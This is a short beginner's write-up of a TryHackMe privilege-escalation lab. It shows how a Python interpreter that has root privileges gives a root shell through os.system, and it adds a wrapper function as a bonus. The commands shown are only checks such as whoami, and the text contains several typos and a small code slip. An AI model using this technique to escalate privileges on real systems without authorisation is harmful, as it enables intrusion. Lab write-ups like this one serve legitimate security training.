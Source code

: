 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.
 
$ input
>>> input python
'''
| output
''' 
so there is a trick to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
| >>>
''' 
now we are in the python interactive shell, this is sort of a testing ground for coders
but for us its just a convenient way to get a shell
 
we only need to init just one import for os commands
 
>>> import os
'''
|
'''
now, lets see if we are root, (euid = 0:root)
 
>>> geteuid()
'''
| 0
'''
Grate! python user has root privilege! lets use that ofc...
the syntax should look like this '''os.system("YOUR COMMAND GOES HERE")'''
 
>>> os.system("whoami")
'''
| root

| 0
'''

*** you can press the arrow-key-up button to toggle previous commands exactly like a regular shell
 
# -------------------------------------------------------------------------------
# bonus:

do you want to improve that?
 
>>> def A(i):
>>>     os.system(i)
>>>
|
 
>>> A('whoami')
| root
| 0
 
now all we need to do is A("YOUR COMMAND GOES HERE")


 
Hye! if you done the bonus why not get in to a python course?